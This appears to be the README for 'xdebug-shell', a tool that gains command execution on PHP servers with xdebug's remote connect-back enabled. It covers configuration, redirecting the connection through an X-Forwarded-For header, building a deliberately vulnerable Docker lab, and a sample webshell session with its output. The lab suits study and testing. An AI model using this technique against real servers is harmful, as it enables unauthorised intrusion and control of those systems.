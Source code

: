 # xdebug-shell

Exploting xdebug to get command execution is not new:

* https://redshark1802.com/blog/2015/11/13/xpwn-exploiting-xdebug-enabled-servers/
* https://ricterz.me/posts/Xdebug:%20A%20Tiny%20Attack%20Surface

It is always cool to have a webshell.

## What is xdebug ?

Xdebug is a php extension that allows to debug php pages, remotely by using DGBp protocol. Code repository is located at [xdebug](https://github.com/xdebug/xdebug).

Code execution is possible via injections that exist in eval or property_get xdebug commands.

## How to activate it ?

For a reverse shell to work, xdebug configuration needs to include:

```
xdebug.remote_enable=true
xdebug.remote_connect_back=true
```

In order to start xdebug, add `XDEBUG_SESSION_START` to query parameters.

## How does it work ?

Remote server will try to connect back to user on port tcp/9000. The endpoint where to connect to can be altered using `X-Forwarded-For` header. For example, if using Docker for Mac to run the xdebug Docker image supplied, you may use docker.for.mac.localhost as value.

## How to start a Docker vulnerable image ?

Go into vulnerable-xdebug and type:

```
$ docker build -t vulnerable-xdebug .
$ docker run -ti --rm -p 8080:80 vulnerable-xdebug
AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
```

[Dockerfile](vulnerable-xdebug/Dockerfile) is based on Centos 7.4.1708 image.

## Get a webshell

```
$ ./xdebug-shell.py --local-host=docker.for.mac.localhost http://127.0.0.1:8080/phpinfo.php
>> id
uid=48(apache) gid=48(apache) groups=48(apache)
>> pwd
/var/www/html
>> uname -a
Linux b8db2353f675 4.9.60-linuxkit-aufs #1 SMP Mon Nov 6 16:00:12 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
>> cat /etc/redhat-release
CentOS Linux release 7.4.1708 (Core)
>> ^D
```

